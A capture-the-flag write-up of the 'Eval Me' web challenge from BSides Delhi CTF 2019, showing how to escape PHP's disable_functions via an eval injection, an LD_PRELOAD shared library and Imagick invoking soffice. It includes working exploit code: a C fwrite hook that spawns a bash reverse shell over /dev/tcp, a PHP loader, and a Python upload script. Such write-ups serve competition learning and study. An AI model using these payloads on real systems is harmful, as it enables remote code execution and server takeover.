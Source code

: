 ```yaml
---
title: Eval Me - Bsides Delhi CTF 2019
date: 2019-10-23 10:10:10
author: c3rb3ru5
author_url: https://twitter.com/__c3rb3ru5__
categories:
  - Web Exploitation
tags:
  - PHP
  - Write-up
---
```

Write-up of Eval Me challenge from BSides Delhi CTF 2019

tl;dr Bypassing disable_functions using PHP-Imagick and Soffice
<!--more-->


In this challenge made by SpyD3r, we are directly given the source code of the PHP file. There is a sandbox being created for each user to reduce interaction between players. Then there is a direct eval without any sort of blacklisting of filtering of user input:

```
eval($_GET['input']);
```

But when we try to read the phpinfo() file, then we realise that most of the PHP functions and all the system functions that could lead to code execution are disabled:

```
disable_functions = pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,stream_socket_sendto,stream_socket_client,pcntl_async_signals,error_log,system,exec,shell_exec,popen,proc_open,passthru,link,symlink,syslog,imap_open,ld,mail,file_put_contents,scandir,file_get_contents,readfile,fread,fopen,chdir
```

But we see that there are some modules that are installed on the server from the phpinfo() output.

We can use PHP-Imagick and Libre-office which has been installed in the server. We can use these two modules combined to perform LD_PRELOAD and bypass disable_functions.

So we write a program in C, by basically overwriting fwrite that is used while we use PHP-Imagick. We unset the previously set LD_PRELOAD variable and then execute the system command and perform a reverse shell to our server ip.

```c
#include <stdio.h>
#include <stdlib.h>

size_t fwrite(const void *ptr, size_t size, size_t nmemb,FILE *stream){
	unsetenv("LD_PRELOAD");
	system("bash -c \"sh -i >& /dev/tcp/127.0.0.1/1234 0>&1\"");
	return 1;
}
```

Now we just have to compile the code, upload it to the server, overwrite the LD_PRELOAD variable with the binary that we uploaded and then use PHP-Imagick to invoke the system command.

We compile the C code as a shared libray to say some file exploit.txt and using this script we move that to the /tmp folder and chmod it to give executing permissions and then overwrite the LD_PRELOAD environment variable using putenv() function.

Then we need use PHP-Imagick such that we internally invoke soffice which internally uses execve.

```php
<?php

rename("./exploit.txt","/tmp/exploit.txt");
chmod("/tmp/exploit.txt",0755);
putenv("LD_PRELOAD=/tmp/exploit.txt");
$im = new imagick();
$im->readImage('./Assignment1.docx');
$im->setImageFormat("jpg");
$im->writeImage("./BoardReport.jpg");

?>
```

We then upload both the scripts using the eval function provided by using the move_uploaded_file() function to upload the files.

```python
#!/usr/bin/env python2

import requests

url1 = "http://34.67.7.120/?input=move_uploaded_file($_FILES['evil']['tmp_name'],'./exploit.txt');"
url2 = "http://34.67.7.120/?input=move_uploaded_file($_FILES['evil']['tmp_name'],'./phpSHELL.php');"


files = {'evil':open('exploit.txt','rb')}

files2 = {'evil':open('phpSHELL.php','rb')}

requests.post(url1, files=files)
requests.post(url2, files=files2)

req = requests.get("http://34.67.7.120/")
folder = req.text[:32]

print folder

requests.get("http://34.67.7.120/xxx/" + str(folder) + "/phpSHELL.php")
```

Then last we have sent a request to the phpshell that we uploaded, and our system command gets executed and we get a reverse shell.

Then we see that there is a flag text file in the root folder, but only the root can read it. But there is a readFlag setuid binary which on executing reads and prints the flag file.
